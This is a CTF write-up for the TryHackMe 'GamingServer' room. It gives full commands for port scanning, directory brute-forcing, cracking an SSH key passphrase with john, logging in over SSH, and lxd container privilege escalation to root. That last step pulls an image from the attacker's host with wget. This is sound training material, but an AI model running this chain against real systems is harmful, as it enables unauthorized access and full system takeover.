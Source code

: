 ```yaml
---
layout: post
title:  "GamingServer tryhackme room writeup"
date:   2020-07-23 21:03:36 +0530
categories: CTF Writeups
---
```


# GamingServer


writeup of the room GamingServer in TryHackMe

first start by doing a port scan

```bash
rustscan $IP
```
results:
```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
then start start dirbuster or gobuster to search for hidden files

```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
you will then find an interesting folder called "/secret" 

![](https://i.imgur.com/dvouO8n.png)

that contains a ssh key, download it

after you downloaded that key create a new hash file using ssh2john
```python
python ssh2john.py SecretKey > id_rsa.hash
```
and then crack it using john and rockyou wordlist
```python
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
results
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos!
Session completed
```
then i found a user that can be used for a ssh connection on the website source code

in the bottom line of : https://$IP/index.html

![](https://i.imgur.com/AkvBtg2.png)

as you can see there is a user called john

connect to the server throught ssh
```bash
ssh john@$IP -i ./SecretKey
```
enter the passphrase and you logged in as john

![](https://i.imgur.com/fvRhWhv.png)

now get the user flag
```bash
cat user.txt
a****************e
```
after searching and looking in the machine i found an interesting service called lxd(Linux Containers) owned by root and that can be used by anyone,

locally clone that repo and run the other commands
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
then start a simple web server
```bash
python -m SimpleHTTPServer
```
then download the files you just downloaded locally
```bash
cd /tmp
wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz
```
replace $LHOST with your local ip address (run "ip addr" to see it)

import the image by running: 
```bash
lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
```
then spawn a root shell by running this list of commands
```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
whoami
```
now get the root flag 
```bash
cat mnt/root/root/flag.txt
2************c
```
if you don't get your root shell or it's not working try following this [guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privilege escalation about lxd
